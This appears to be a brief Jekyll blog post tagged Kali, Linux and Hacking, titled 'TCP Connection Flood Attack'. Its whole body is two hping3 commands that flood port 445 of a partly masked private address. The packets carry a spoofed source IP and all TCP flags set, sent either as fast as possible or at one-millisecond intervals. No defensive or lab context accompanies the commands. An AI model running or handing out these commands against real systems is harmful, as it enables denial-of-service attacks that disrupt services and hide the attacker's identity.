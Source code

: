 ```yaml
---
layout: post
title: TCP Connection Flood Attack
categories: [Hacking]
tags: [Kali, Linux, Hacking]
description: TCP FLOOD
fullview: true
comments: true
---
```


{% highlight yaml %}
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 --flood 192.168.xx.xx
$hping3 -q -n -a 10.0.0.1 -SARFU -p 445 -i u1000 192.168.xx.xx
{% endhighlight %}
